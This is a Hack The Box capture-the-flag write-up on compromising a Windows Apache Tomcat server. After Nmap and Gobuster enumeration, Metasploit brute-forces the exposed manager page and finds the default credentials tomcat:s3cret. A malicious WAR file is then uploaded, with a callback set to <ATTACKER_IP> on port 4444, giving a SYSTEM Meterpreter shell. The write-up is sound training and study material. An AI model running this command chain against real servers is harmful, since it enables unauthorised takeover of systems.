


**Difficulty:** Easy<br>
**OS:** Windows<br>
**Date Completed:** 2026-08-30<br>
**Write-up Authored by:** Ian Simons<br>
**Challenge Created by:** mrh4sh<br>
**Core Competencies:**
- Network Enumeration with Nmap
- Vulnerability Research
- Brute Forcing with Metasploit
- Exploitation with Metasploit
- Web Enumeration with gobuster

---
## Overview
This box was recommended by the Hack the Box Academy Job Role Path "Penetration Tester" in the "Getting Started" Module. The purpose of completing this box is to build familiarity with Metasploit. As we will see, it did just that.
Note: Flags documented in Appendix B

---
## Vulnerability summary

| Vulnerability                                             | Vulnerability Classification                                                                                                     | CVSS Score | MITRE ATT&CK Technique        | ATT&CK Tactic     |
| --------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------- | ---------- | ----------------------------- | ----------------- |
| Weak/Guessable Password Apache Tomcat Manager Credentials | CWE - 521 - Weak Password Requirements<br>OWASP: A05 - Security Misconfigurations                                                | N/A        | T1110.001 - Password Guessing | Credential Access |
| Tomcat Manager accessible externally                      | CWE - 552 - Files/Functionality Exposed to Unauthorized Actors<br>OWASP: A05- Security Misconfigurations                         | N/A        | T1595 - Active Scanning       | Reconnaissance    |
| Missing Login rate-limiting on Tomcat Manager             | CWE - 307 - Improper Restriction of Excessive Authentication Attempts<br>OWASP: A07 - Identification and Authentication Failures | N/A        | T1110 - Brute Force           | Credential Access |


---
## Attack Path Summary
1. Performed network reconnaissance with **Nmap**, and identified **Apache Tomcat 7.0.88** on port **8080**.
2. Performed **Gobuster** scan and identified that the **/manager** page was available. This is is a critical security misconfiguration (**OWASP A05-Security Misconfiguration**)
3. Utilized **Metasploit Framework** module **auxiliary/scanner/http/tomcat_mgr_login** to brute force credentials. Exposed HTTP management portals are often vulnerable to Password Guessing attacks (**MITRE: T1110.001-Password Guessing**)
4. Successfully logged in with **tomcat:s3cret**. These are the demo credentials provided by documentation (**CWE-521-Weak Password Requirements**)
5. Leveraged the Metasploit module: **exploit/multi/http/tomcat_mgr_upload** to upload a malicious WAR file resulting in authenticated code execution and a **Meterpreter** session running as **NT AUTHORITY\SYSTEM**
---
## Reconnaissance
### Port Discovery
Nmap scan results
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-30 13:53 EDT
Nmap scan report for 10.129.62.198
Host is up (0.0073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.75 seconds

```
#### Key Open Ports and Services

A single exposed service was identified

| Port     | Service | Version              |
| -------- | ------- | -------------------- |
| 8080/TCP | HTTP    | Apache Tomcat 7.0.88 |

### Web Enumeration 
Upon navigating to the Web Application, the default Apache Tomcat page was present. A **Gobuster** scan yielded the results below. Notably, the **/manager** page was identified. The **/manager** page is the Tomcat Manager Application, an administrative console that permits application deployment. Its exposure is a critical misconfiguration because authenticated users can deploy arbitrary WAR files. Exposure of the **\manager** page significantly increases the impact of credential compromise.
```
┌─[us-dedivip-3]─[10.10.14.169]─[n00blyfe@htb-6jlfvkttux]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.62.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.62.198:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/con                  (Status: 200) [Size: 0]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]
/http%3A%2F%2Fblog    (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================

```
### Vulnerability Research
The availability of the **/manager** page is a significant security misconfiguration (**OWASP: A05 - Security Misconfiguration**) that opens the service up to a password guessing attack (**MITRE: T1110.001 - Password Guessing**). 

---
## Initial Access
### Vulnerability Details
- Description: Weak Password, and Security Misconfiguration
- Vulnerability Classification:CWE - 521 - Weak Password Requirements, CWE - 552 - Files/Functionality Exposed to Unauthorized Actors, CWE - 307 - Improper Restriction of Excessive Authentication Attempts, OWASP:A05-Security Misconfiguration, OWASP: A07 - Identification and Authentication Failures
- MITRE ATT&CK: Credential Access - T1110.001 - Password Guessing

The **/manager** page was found to be accessible opening the server up to a password guessing attack. Upon successfully completing the attack, weak credentials were found to be in use.
#### Exploitation Steps
The accessible **/manager** page, combined with the lack of rate limiting or account lockout, allowed for a password guessing attack. Upon recovering the credentials `tomcat:s3cret` a malicious WAR file was easily uploaded, providing system-level access to the machine.

1. Launch Metasploit framework
2. Select module **auxiliary/scanner/http/tomcat_mgr_login**
3. Configure target settings
4. Execute the scan, find credentials `tomcat:s3cret`
5. Select module **exploit/multi/http/tomcat_mgr_upload**
6. Configure target and callback settings
7. Execute exploit
#### Key Commands / Payloads
```
#launch Metasploit Framework console
msfconsole

#select appropriate scanner module
use auxiliary/scanner/http/tomcat_mgr_login

#set appropriate options for module
set RHOSTS <TARGET_IP>
set RPORT 8080

#run scan
run

#select appropriate exploit Module
use exploit/multi/http/tomcat_mgr_upload

#set appropriate options for module
set RHOSTS <TARGET_IP>
set RPORT 8080
set LHOSTS <ATTACKER_IP>
set LPORT 4444
set HttpUsername tomcat
set HttpPassword s3cret

#execute exploit
run
```

#### Proof of Access 
##### Screenshots
<br>
Figure 1: Proof of initial access and system-level privileges. Successful exploitation resulted in command execution on the target host. Session validated by confirming execution context, hostname, and operating system version.
##### Session Validation Commands
```
#Check user context
whoami.exe

#Verify target hostname
hostname

#Verify operating system version
 ver
```
---
## Privilege Escalation
Not required. Initial access was obtained in the context of **NT AUTHORITY\SYSTEM**
---
## Lessons Learned 
This was another box geared towards building fundamental skills in Metasploit. It definitely pushed me in different ways than the last box, but the same skills that I built in "Granny" came in handy on this box. Below are some key takeaways that hopefully can help others also attempting to solidify these fundamentals.
- Re-numeration is critical after successful completion of anything. That includes checking current privileges
- Metasploit is not limited to hunting for and running exploits. Other attacks such as password guessing can be done using Metasploit, simplifying the required tooling
---
## Appendix
### Appendix A
#### Tools Used 
| Tool                 | Purpose                                                                       |
| -------------------- | ----------------------------------------------------------------------------- |
| Nmap                 | Network Reconnaissance, Service Discovery, and version detection              |
| Gobuster   | Website Directory Enumeration |
| Metasploit Framework | Exploitation, session management, post-exploitation, and privilege escalation |

### Appendix B
#### Flags Found
<br>
User Flag:
700\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*d00<br>
Root Flag:
04a\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*90e

### Appendix C
#### Supporting Evidence
No additional supporting evidence was required beyond 
